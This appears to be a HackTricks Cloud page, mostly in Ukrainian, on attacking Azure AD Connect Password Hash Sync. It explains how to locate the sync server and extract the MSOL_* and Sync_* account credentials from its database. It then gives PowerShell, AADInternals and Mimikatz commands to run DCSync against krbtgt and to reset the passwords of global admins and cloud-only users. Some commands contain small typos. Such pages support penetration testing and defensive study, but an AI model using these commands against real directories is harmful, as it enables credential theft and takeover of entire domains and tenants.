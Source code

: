 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Синхронізація хешів паролів** є одним із методів входу, що використовується для досягнення гібридної ідентичності. **Azure AD Connect** синхронізує хеш, хешу, пароля користувача з локальної інстанції Active Directory до хмарної інстанції Azure AD.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Це **найпоширеніший метод**, який використовують компанії для синхронізації локального AD з Azure AD.

Всі **користувачі** та **хеш паролів** синхронізуються з локального AD до Azure AD. Однак **паролі у відкритому тексті** або **оригінальні** **хеші** не надсилаються до Azure AD.\
Більше того, **вбудовані** групи безпеки (як-от адміністратори домену...) **не синхронізуються** з Azure AD.

**Синхронізація хешів** відбувається кожні **2 хвилини**. Однак за замовчуванням **терміни дії паролів** та **терміни дії облікових записів** **не синхронізуються** в Azure AD. Тому користувач, чий **локальний пароль прострочений** (не змінений), може продовжувати **доступ до ресурсів Azure** за допомогою старого пароля.

Коли локальний користувач хоче отримати доступ до ресурсу Azure, **автентифікація відбувається в Azure AD**.

**PHS** потрібен для функцій, таких як **Захист ідентичності** та AAD Domain Services.

## Pivoting

Коли PHS налаштовано, деякі **привілейовані облікові записи** автоматично **створюються**:

* Обліковий запис **`MSOL_<installationID>`** автоматично створюється в локальному AD. Цьому обліковому запису надається роль **Облікові записи синхронізації каталогу** (див. [документацію](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), що означає, що він має **дозволи на реплікацію (DCSync) в локальному AD**.
* Обліковий запис **`Sync_<name of on-prem ADConnect Server>_installationID`** створюється в Azure AD. Цей обліковий запис може **скидати пароль будь-якого користувача** (синхронізованого або лише хмарного) в Azure AD.

Паролі двох попередніх привілейованих облікових записів **зберігаються в SQL сервері** на сервері, де **встановлено Azure AD Connect.** Адміністратори можуть витягувати паролі цих привілейованих користувачів у відкритому тексті.\
База даних розташована в `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Можливо витягти конфігурацію з однієї з таблиць, одна з яких зашифрована:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Зашифрована конфігурація** зашифрована за допомогою **DPAPI** і містить **паролі користувача `MSOL_*`** в локальному AD та пароль **Sync\_\*** в AzureAD. Тому, компрометуючи ці дані, можна підвищити привілеї до AD та AzureAD.

Ви можете знайти [повний огляд того, як ці облікові дані зберігаються та розшифровуються в цій доповіді](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Якщо **сервер, на якому встановлено Azure AD connect**, приєднаний до домену (рекомендується в документації), його можна знайти за допомогою:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Зловживання MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Ви також можете використовувати [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) для отримання цих облікових даних.
{% endhint %}

### Зловживання Sync\_\*

Компрометуючи обліковий запис **`Sync_*`**, можливо **скинути пароль** будь-якого користувача (включаючи глобальних адміністраторів)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Також можливо **змінити паролі лише для користувачів хмари** (навіть якщо це неочікувано)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Цілком можливо вивантажити пароль цього користувача.

{% hint style="danger" %}
Іншою опцією було б **призначити привілейовані дозволи службовому принципу**, що **Sync** користувач має **дозволи** на це, а потім **отримати доступ до цього службового принципу** як спосіб підвищення привілеїв.
{% endhint %}

### Безшовний SSO

Можливо використовувати безшовний SSO з PHS, який вразливий до інших зловживань. Перевірте це в:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Посилання

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
